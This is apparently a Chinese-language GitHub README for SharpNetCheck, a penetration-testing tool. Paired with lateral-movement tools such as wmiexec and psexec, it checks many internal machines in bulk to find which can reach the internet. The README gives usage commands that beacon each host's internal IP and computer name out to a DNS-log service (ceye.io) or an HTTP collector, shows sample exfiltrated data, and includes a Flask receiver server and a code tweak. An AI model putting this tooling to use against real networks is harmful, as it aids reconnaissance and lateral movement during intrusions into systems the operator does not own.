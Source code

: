 # SharpNetCheck
在渗透过程中，对可以出网的机器是十分渴望的。在收集大量弱口令的情况下，一个一个去测试能不能出网太麻烦了。所以就有了这个工具，可配合如wmiexec、psexec等横向工具进行批量检测，该工具可以在dnslog中回显内网ip地址和计算机名，可实现内网中的快速定位可出网机器。

```
> SharpNetCheck.exe

Author: Uknow
Github: https://github.com/uknowsec/SharpNetCheck

Usage: SharpNetCheck -dns -host ceye.io
       SharpNetCheck -http ceye.io
       SharpNetCheck -all ceye.io
```

## ceye

`SharpNetCheck -all -host xxx.ceye.io`

#### HTTP Requests

```
Method: Post
Data: host=DESKTOP-KUMLA9N&ip1=172.16.242.133
```

#### DNS Query Name
```
172.16.242.133-DESKTOP-KUMLA9N.xxx.ceye.io
```


## 搭建http 回显 服务器 

```
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def welcome():
    return 'Welcome'

@app.route('/register', methods=['POST'])
def register():
    print(request.headers)
    print(request.stream.read())
    return 'welcome'


if __name__ == '__main__':
    app.run(host='0.0.0.0',port=38989, debug=True)
```

然后运行 SharpNetCheck.exe

```
>SharpNetCheck.exe -http 1x.x.x.x2:38989/register

Net Ckeck by HTTP , Please check the DNSlog
```

服务器就可以接收到post的内容

![](./flask.png)

修改 `SharpNetCheck/Program.cs` 第97行代码

`url = "http://" + url + "/";`

为

`url = "http://" + url;`

默认把`请求文件`变成`请求目录`，可能导致无法获取到post内容
